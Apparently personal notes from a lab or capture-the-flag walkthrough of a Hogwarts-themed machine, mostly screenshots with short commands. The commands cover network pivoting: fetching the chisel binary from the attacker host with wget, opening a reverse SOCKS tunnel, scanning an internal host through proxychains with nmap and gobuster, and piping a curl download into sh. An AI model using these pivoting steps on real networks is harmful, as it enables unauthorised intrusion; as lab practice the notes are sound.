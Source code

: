 ![[Pasted image 20231024114904.png]]
```java
nano hostdiscovery.sh
chmod +x hostdiscovery.sh -vvv
./hostdiscovery.sh
```
![[Pasted image 20231024114818.png]]
![[Pasted image 20231024115515.png]]
```java
mv /home/kali/Donwloads/chisel_1.9.1_linux_amd64.gz .
gunzip chisel_1.9.1_linux_amd64.gz
```
![[Pasted image 20231024120403.png]]
```java
chmod +x chisel
```
![[Pasted image 20231024120439.png]]
```java
python3 -m http.server 80
wget http://192.168.153.152/chisel
```
![[Pasted image 20231024120707.png]]
```java
./chisel client 192.168.153.152:1234 R:socks
./chisel server --reverse -p 1234
```

![[Pasted image 20231024123805.png]]
```java
nano /etc/proxychains4.conf
socks5 127.0.0.1 1080
```
![[Pasted image 20231024124235.png]]!
```java
proxychains nmap -sT -Pn --top-ports 500 -open -T5 -v -n 10.10.0.128 2>/dev/null
```
![[Pasted image 20231024124623.png]]

![[Pasted image 20231024125132.png]]![[Pasted image 20231024125232.png]]
```java
gobuster dir -u http://10.10.0.128/ -w /usr/share/seclist/Discovery/Web_COntent/directory-list-2.3-medium.txt -t 20 -x http,php,txt --proxy socks5://127.0.0.1:1080
```
![[Pasted image 20231024125621.png]]
![[Pasted image 20231024130037.png]]
i will bd using our new HTTP3 server at html://quic.naguini.hogwarts for further comunications
all debelopers are request to visit the server regulary for checking lastest announcements
![[Pasted image 20231024130103.png]]
![[Pasted image 20231024132419.png]]
```java
git clone --recursive https://github.com/cloudflare/quiche
```
![[Pasted image 20231024132900.png]]
```java
curl https://sh.rustup.rs -sSf | sh
```
![[Pasted image 20231024133702.png]]
